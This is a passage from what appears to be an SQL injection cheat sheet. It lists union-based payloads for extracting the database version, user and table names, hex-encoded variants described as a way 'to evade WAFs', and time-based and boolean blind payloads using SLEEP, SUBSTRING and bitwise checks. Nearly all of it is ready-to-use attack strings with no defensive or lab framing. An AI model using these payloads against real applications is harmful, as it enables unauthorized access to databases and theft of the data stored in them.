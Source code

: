 Generate detailed error messages by crafting complex payloads:
```sql
' UNION SELECT 1, version(), database(), user() FROM dual WHERE 1=CAST((SELECT COUNT(*) FROM information_schema.tables) AS INT) --
```

##### 2. Union with Hex Encoding

Encode parts of your query to evade WAFs:
```sql
' UNION SELECT 1, 0x62656e6368, 0x70617373776f7264, user() --
```

##### 3. Multi-Query Union Injection

Leverage multiple queries to extract more data:
```sql
' UNION SELECT 1, database(), (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=database()), user() --
```

##### 4. Union-Based Cross Database Extraction

Combine data from different databases (when supported):
```sql
' UNION SELECT 1, (SELECT column_name FROM db1.table1 LIMIT 1), (SELECT column_name FROM db2.table2 LIMIT 1), user() --
```

### Advanced Boolean-Based SQL Injection

##### 1. Time-Based Boolean Injection with Conditional Responses

Use time delays to infer data based on conditional responses:
```sql
' AND IF((SELECT LENGTH(database()))>5, SLEEP(5), 0) --
```

##### 2. Nested Boolean Injections

Nest conditions to extract specific data:
```sql
' AND IF((SELECT SUBSTRING((SELECT table_name FROM information_schema.tables LIMIT 1), 1, 1))='a', SLEEP(5), 0) --
```

##### 3. Error-Based Boolean Injection

Force errors conditionally to reveal information:
```sql
' AND IF((SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database())>5, (SELECT table_name FROM information_schema.tables), 1) --
```

##### 4. Using Bitwise Operations

Use bitwise operations for more obfuscation and complexity:
```sql
' AND IF((SELECT ASCII(SUBSTRING((SELECT database()),1,1))) & 1, SLEEP(5), 0) --
```
